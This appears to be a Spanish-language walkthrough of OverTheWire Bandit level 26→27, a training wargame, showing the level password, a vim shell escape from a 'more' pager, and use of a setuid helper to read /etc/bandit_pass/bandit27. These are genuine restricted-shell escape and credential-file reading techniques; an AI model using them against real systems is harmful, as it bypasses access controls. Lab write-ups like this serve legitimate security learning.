 # Bandit Level 26 → Level 27

## Objetivo

¡Buen trabajo consiguiendo una concha! ¡Ahora date prisa y obtén la contraseña para bandit27!

## Datos de acceso al nivel
- bandit26 
- c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
## Solucion
```
_ _ _ _ ___ __
| | | (_) | |__ \ / /
| |__ __ _ _ __ __| |_| |_ ) / /_
| '_ \ / _` | '_ \ / _` | | __| / / '_ \
--More--(66%)
v
_ _ _ _ ___ __
| | | (_) | |__ \ / /
| |__ __ _ _ __ __| |_| |_ ) / /_
| '_ \ / _` | '_ \ / _` | | __| / / '_ \
| |_) | (_| | | | | (_| | | |_ / /| (_) |
"~/text.txt" [readonly] 6L, 258B
:set shell=/bin/bash
:shell
[No write since last change]
bandit26@bandit:~$ bandit26@bandit:~$ ls
bandit27-do text.txt
bandit26@bandit:~$ ./bandit27-do id
uid=11026(bandit26) gid=11026(bandit26) euid=11027(bandit27) groups=11026(bandit26)
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
bandit26@bandit:~$
bandit26@bandit:~$ exit
:qa!
q
```

## Notas adicionales
## Referencias
- https://mayadevbe.me/posts/overthewire/bandit/level26/